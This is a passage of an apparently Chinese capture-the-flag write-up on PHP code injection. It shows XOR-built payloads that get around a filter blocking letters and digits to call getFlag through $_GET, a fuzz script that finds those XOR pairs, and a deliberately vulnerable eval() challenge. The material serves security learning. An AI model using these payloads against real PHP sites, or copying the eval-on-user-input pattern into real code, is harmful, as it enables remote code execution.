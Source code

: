 **payload**

```php
code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
```

分解:
$_="{{{"^"?<>/";=$_="GET";
${$_}[_](${$_}[__]);=$_GET[_]($_GET[__]);=getFlag($_GET[__])=getFlag(null);
这个 payload 的长度是 37 ，符合题目要求的 小于等于40 。另fuzz 出了长度为 28 的 payload ，如下：

```php
$_="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$_();
```



**`fuzz`脚本**

```php
<?php
$a = str_split('getFlag');
for($i = 0; $i < 256; $i++){
    $ch = '{'^ chr($i);
    if (in_array($ch, $a , true)) {
        echo "{ ^ chr(".$i.") = $ch<br>";
    }
}
echo "{{{{{{{"^chr(28).chr(30).chr(15).chr(61).chr(23).chr(26).chr(28);
?>
```



### 例题二

题目源代码

```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(strlen($code)>50){
        die("Too Long.");
    }
    if(preg_match("/[A-Za-z0-9_]+/",$code)){
        die("Not Allowed.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}
highlight_file(__FILE);
// $hint = "php function getFlag() to get flag";
?>
```
